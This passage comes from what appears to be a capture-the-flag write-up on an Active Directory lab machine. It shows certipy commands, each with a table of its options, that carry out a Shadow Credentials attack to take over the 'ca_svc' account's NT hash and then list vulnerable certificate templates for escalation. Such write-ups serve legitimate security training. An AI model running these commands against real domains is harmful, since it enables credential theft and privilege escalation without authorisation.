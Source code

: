 ![Desktop View](/ad-series-2/ss25.png)

After executing the command, DACL was modified successfully. At this point, I used `certipy` tool to interact with the `Active Directory Certificate Services` (AD CS). This tool can be used to enumerate, abuse, and misconfigure AD CS for privilege escalation or persistence.

```
sudo certipy-ad shadow auto -u 'ryan@sequel.htb' -p '<password>' -account 'ca_svc' -dc-ip <IP>
```

| Command Option            | Explanation                                                   |
| :-------------------------| :-------------------------------------------------------------|
| shadow auto               | Performs the **Shadow Credentials Attack**. This allows an attacker to gain persistence to <br> another AD user. |
| -u 'ryan@sequel.htb'      | The user account being used to authenticate. |
| -p '<password>'           | The password to login to AD. |
| -account 'ca_svc'         | The target account whose access is being hijacked. |
| -dc-ip                    | Specifies the Domain Controller (DC) IP address. |

I got the NT hash for the user `ca_svc`.
![Desktop View](/ad-series-2/ss26.png)


From here on, I needed to search for vulnerable certificate templates. I'm referring to misconfigured templates that could allow attackers to escalate privileges via `ESC1`, `ESC2`, etc.

So first, I set the environment variable `KRB5CCNAME` to point a Kerberos credential cache file `ca_svc.ccache` in the current working directory `$PWD`. The rest of the command is explained below.

```
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip <IP> -vulnerable -stdout
```

| Command Option            | Explanation                                                   |
| :-------------------------| :-------------------------------------------------------------|
| certipy-ad find           | The main command to search for certificate templates in the AD Certificate Services <br>(AD CS) environment. |
| -scheme ldap      | This specifies the authentication scheme to `ldap`.  |
| -k           | This enables Kerberos authentication (using the ticket from KRB5CCNAME). |
| -debug         | Enables debug output for troubleshooting. |
| -target dc01.sequel.htb | This sets the target domain controller. |
| -dc-ip <IP> | The IP address of the domain controller |
| -vulnerable | This will list the only certificate templates that are vulnerable to exploitation. |
| -stdout | This forces the output to be printed to the console |

![Desktop View](/ad-series-2/ss27.png)
